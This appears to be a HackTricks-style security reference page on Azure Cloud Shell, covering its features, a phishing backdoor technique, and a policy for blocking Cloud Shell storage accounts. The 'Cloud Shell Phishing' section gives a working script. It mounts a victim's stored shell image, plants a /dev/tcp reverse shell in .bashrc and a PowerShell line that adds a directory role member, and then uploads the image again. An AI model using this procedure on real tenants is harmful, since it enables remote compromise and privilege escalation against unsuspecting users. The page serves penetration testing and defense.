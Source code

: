 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** is an interactive, authenticated, browser-accessible terminal designed for managing Azure resources, offering the flexibility to work with either Bash or PowerShell. It runs on a temporary, per-session host that times out after 20 minutes of inactivity, while persisting files in the $HOME location using a 5-GB file share. Cloud Shell can be accessed through multiple points, including the Azure portal, shell.azure.com, Azure CLI and PowerShell documentation, the Azure mobile app, and the Visual Studio Code Azure Account extension.

There aren't permissions assigned to this service, therefore the aren't privilege escalation techniques. Also there isn't any kind of enumeration.

### Key Features

- **Preinstalled Tools**: Cloud Shell includes a comprehensive set of preinstalled tools such as Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git, and text editors like vim, nano, and emacs. These tools are ready to use. To list the installed packeges and modules you can use "Get-Module -ListAvailable", "tdnf list" and "pip3 list".
- **Azure drive (Azure:)**: PowerShell in Azure Cloud Shell includes the Azure drive (Azure:), which allows easy navigation of Azure resources like Compute, Network, and Storage using filesystem-like commands. Switch to the Azure drive with cd Azure: and return to your home directory with cd ~. You can still use Azure PowerShell cmdlets to manage resources from any drive.
- **Custom Tool Installation**: Users who configure Cloud Shell with a storage account can install additional tools that do not require root permissions. This feature allows for further customization of the Cloud Shell environment, enabling users to tailor their setup to their specific needs.
- **$HOME persistence**: When starting Azure Cloud Shell for the first time, you can use it with or without an attached storage account.
    - Choosing not to attach storage creates an ephemeral session where files are deleted when the session ends.
    - To persist files across sessions, you are given the option to **mount a storage account**, which attaches automatically as `$HOME\clouddrive`, with your `$HOME` directory **saved as an .img file in a File Share.**

### Cloud Shell Phishing

If anattacker finds other users images in a Storage Accout he has write and read access to, he will be able to download the image, **add a bash and PS backdoor into it**, and upload it back to the Storage Account so next time the user access the shell, the **commands will be automatically executed**.

- **Download, backdoor and uplaod the image:**

```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```

- **Then, phish the user to access https://shell.azure.com/**


### Find & Forbid Cloud Shell Automatic Storage Accounts

Storage accounts created by Cloud Shell are tagged with **`ms-resource-usage:azure-cloud-shell`**. It’s possible to create an Azure resource policy that disable creating resources with this tag.

Find all the storage accounts created by Cloud Shell by tags:

```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```

Policy to forbid the creation of automatic storage accounts for cloud shell storage based on tags:

```json
{
    displayName: "Restrict cloud shell storage account creation",
    description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
    metadata: {
        category: "Storage",
        version: "1.0.0"
    },
    mode: "All",
    parameters: {
        effect: {
            type: "String",
            metadata: {
                displayName: "Effect",
                description: "Deny, Audit or Disabled the execution of the Policy"
            },
            allowedValues: [
                "Deny",
                "Audit",
                "Disabled"
            ],
            defaultValue: "Audit"
        }
    },
    policyRule: {
        if: {
            allOf: [
                {
                field: "type",
                equals: "Microsoft.Storage/storageAccounts"
                },
                {
                field: "tags['ms-resource-usage']",
                equals: "azure-cloud-shell"
                }
            ]
        },
        then: {
            effect: "[parameters('effect')]"
        }
    }
}
```



## References

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## Persistence

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

